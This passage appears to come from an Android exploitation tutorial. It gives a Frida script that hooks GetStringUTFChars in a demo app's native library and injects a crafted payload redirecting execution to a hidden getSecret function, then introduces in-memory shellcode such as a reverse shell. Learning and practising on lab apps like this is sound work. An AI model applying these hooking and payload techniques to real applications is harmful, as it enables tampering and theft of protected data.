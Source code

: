 ```js
var libnative_lib_so = 'libnative-lib.so';

function start_timer_for_intercept() {
  setTimeout(function() {
    console.log("[+] " + libnative_lib_so + " Base Address -> " + Module.findBaseAddress(libnative_lib_so));

    var offset_of_GetStringUTFChars = 0x51110; // Offset for GetStringUTFChars
    var dynamic_address_of_GetStringUTFChars = Module.findBaseAddress(libnative_lib_so).add(offset_of_GetStringUTFChars);

    // Allocate memory for the payload
    var memoryForPayload = Memory.alloc(100);
    var payload = [0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41];

    // Find the address of getSecret
    var getSecret = Module.findExportByName("libnative-lib.so", "Java_com_example_myapplication_MainActivity_getSecret");
    var getSecretAddr = getSecret.toString().match(/[\s\S]{1,2}/g) || [];

    // Push the getSecret address in reverse order due to endianness
    payload.push(parseInt(getSecretAddr[4], 16), parseInt(getSecretAddr[3], 16), parseInt(getSecretAddr[2], 16), parseInt(getSecretAddr[1], 16));
    Memory.writeByteArray(memoryForPayload, payload);

    // Hook GetStringUTFChars and replace the return value with our crafted payload
    Interceptor.attach(dynamic_address_of_GetStringUTFChars, {
      onLeave: function(retval) {
        var uInput = retval.readCString();
        if (uInput == "exploit") {
          retval.replace(memoryForPayload); // Replace retval with our crafted payload
        }
      }
    });
  }, 2000);
}

start_timer_for_intercept();
```

#### Summary

- We first locate the `getSecret` function's address using `Module.findExportByName()`.
- The address is then formatted and adjusted for system endianness.
- Finally, by hooking the `GetStringUTFChars` function, we replace the user input with a payload that includes the address of `getSecret`.
- When the payload is executed, the application logs "Yeah!" to indicate success.

And just like that, we’ve successfully exploited the application to call the `getSecret` function!

## Bonus
If you're interested in writing and executing shellcode in memory—like a reverse shell—this section will guide you through the process. The steps include writing the shellcode, allocating memory for it, changing the allocated memory's permissions to make it executable, and then writing the shellcode into that memory.
